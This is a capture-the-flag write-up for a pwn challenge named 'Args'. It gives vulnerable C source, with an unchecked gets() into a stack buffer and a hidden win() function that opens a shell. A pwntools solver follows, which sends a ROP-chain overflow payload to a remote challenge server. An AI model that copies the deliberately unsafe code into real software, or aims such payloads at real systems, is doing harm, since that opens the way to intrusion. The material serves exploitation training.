

## Args


### Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

//gcc main.c -o main -fno-stack-protector -no-pie
int setup(){
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    return setvbuf(stdin, NULL, _IONBF, 0);
}
int win(int a, int b){
    if (a == 0xdeadbeef && b == 0xcafebabe){
        system("/bin/sh");
    } else {
        puts("You are in but keep trying");
    }
}
int main(){
    setup();
    char buf[50];
    printf("double room for ?:");
    gets(buf);
    return 0;
}
```
### Overview
This challenge is a bit similar to the Baby_BOF but here we have arguments to pass.
In order to do that we can use ```ROP``` from pwntools library, that makes our lives more better.

### Solver
```py
from pwn import * 

elf = context.binary = ELF('main')
con = remote('20.216.40.184',10003)

offset = b'A' * 72

rop = ROP(elf)
rop.win(0xdeadbeef,0xcafebabe)

log.info(rop.dump())
payload = offset + rop.chain() 

con.send(payload)
con.interactive()
con.close()
```
